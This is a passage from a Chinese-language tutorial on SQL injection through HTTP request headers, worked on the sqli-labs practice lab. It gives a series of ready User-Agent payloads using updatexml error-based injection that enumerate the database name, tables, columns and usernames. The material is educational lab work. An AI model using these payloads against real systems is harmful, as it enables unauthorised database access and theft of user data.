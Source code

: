 Referer：浏览器向web服务器表名自己是从哪个页面过来的。

X-forwarded-for：简称xff头，它代表客户端（即http的请求端）真实IP。

#### 3.5.1.3.**头部注入的前提**

能够对请求头消息进行修改，修改请求头信息能够带入数据库执行，数据库没有对输入的请求头做过滤。

### 3.5.2.案例sqli-labs-less-5 字符型

#### 3.5.2.1.**判断注入点**

通过页面登录发现有返回的user-agent信息，可以通过抓包对其进行注入测试。

![img](https://s2.loli.net/2023/03/12/65ZCL17HluYKFhc.jpg) 

#### 3.5.2.2.**判断是否存在报错**

通过抓包后在user-agent的值后面添加干扰字符进行测试。发现能够出现报错的信息。

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0'

![img](https://s2.loli.net/2023/03/12/KYgMPSBjNhdQ9XU.jpg) 

#### 3.5.2.3.**使用报错语句进行测试**

User-Agent: 'and updatexml(1,0x7e,3)and '1'='1

![img](https://s2.loli.net/2023/03/12/AnhalGyPErwu8MB.jpg) 

#### 3.5.2.4.**确认数据库名**

User-Agent: 'and updatexml(1,concat(0x7e,database()),3) and '

![image-20230312184054985](https://s2.loli.net/2023/03/12/wPnOQb5pJ9aLH3u.png)

#### 3.5.2.5.**确认数据库表名**

User-Agent: 'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security' )),3) and '

 

![img](https://s2.loli.net/2023/03/12/1nVEQGWkUlYXKvy.jpg) 

#### 3.5.2.6.**确认数据库列名**

User-Agent: 'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' )),3) and '

![img](https://s2.loli.net/2023/03/12/iB9DUvAGeypfco2.jpg) 

#### 3.5.2.7.**确认数据库字段名**

User-Agent: 'and updatexml(1,concat(0x7e,(select username from users limit 0,1 )),3) and '
